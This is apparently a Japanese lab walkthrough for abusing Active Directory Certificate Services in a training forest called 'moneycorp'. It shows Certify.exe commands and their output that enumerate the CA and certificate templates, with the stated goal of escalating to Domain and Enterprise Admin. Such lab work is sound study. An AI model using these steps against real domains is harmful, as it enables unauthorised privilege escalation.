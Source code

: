 ## Task
- ターゲットのフォレストでAD CSが使用されているかどうかを確認し、脆弱なテンプレートや悪用可能なテンプレートがないかを確認する。
- 上記のようなテンプレートを悪用して、ドメイン管理者およびエンタープライズ管理者にエスカレーションする。

## 手順
1. Certifyツールを使用して、moneycorpのAD CSを確認することができる。
```
C:\AD\Tools>C:\AD\Tools\Certify.exe cas 
 
   _____          _   _  __ 
  / ____|        | | (_)/ _| 
 | |     ___ _ __| |_ _| |_ _   _ 
 | |    / _ \ '__| __| |  _| | | | 
 | |___|  __/ |  | |_| | | | |_| | 
  \_____\___|_|   \__|_|_|  \__, | 
                             __/ | 
                            |___./ 
  v1.0.0 
 
[*] Action: Find certificate authorities 
[*] Using the search base 'CN=Configuration,DC=moneycorp,DC=local' 
 
 
[*] Root CAs 
 
    Cert SubjectName              : CN=moneycorp-MCORP-DC-CA, DC=moneycorp, 
DC=local 
    Cert Thumbprint               : 8DA9C3EF73450A29BEB2C77177A5B02D912F7EA8 
    Cert Serial                   : 48D51C5ED50124AF43DB7A448BF68C49 
    Cert Start Date               : 11/26/2022 1:59:16 AM 
    Cert End Date                 : 11/26/2032 2:09:15 AM 
    Cert Chain                    : CN=moneycorp-MCORP-DC
CA,DC=moneycorp,DC=local  
[snip]
```
Cert SubJectNameを確認する。

---
2. 以下の子安堵ですべてのテンプレートをリストアップすることができる。
```
C:\AD\Tools>C:\AD\Tools\Certify.exe find 
 
   _____          _   _  __ 
  / ____|        | | (_)/ _| 
 | |     ___ _ __| |_ _| |_ _   _ 
 | |    / _ \ '__| __| |  _| | | | 
 | |___|  __/ |  | |_| | | | |_| | 
  \_____\___|_|   \__|_|_|  \__, | 
                               __/ | 
                            |___./ 
  v1.0.0 
 
[*] Action: Find certificate templates 
[snip] 
CA Name                               : mcorp-dc.moneycorp.local\moneycorp
MCORP-DC-CA 
    Template Name                         : SmartCardEnrollment-Agent 
    Schema Version                        : 2 
    Validity Period                       : 10 years 
    Renewal Period                        : 6 weeks 
    msPKI-Certificates-Name-Flag          : SUBJECT_ALT_REQUIRE_UPN, 
SUBJECT_REQUIRE_DIRECTORY_PATH 
    mspki-enrollment-flag                 : AUTO_ENROLLMENT 
```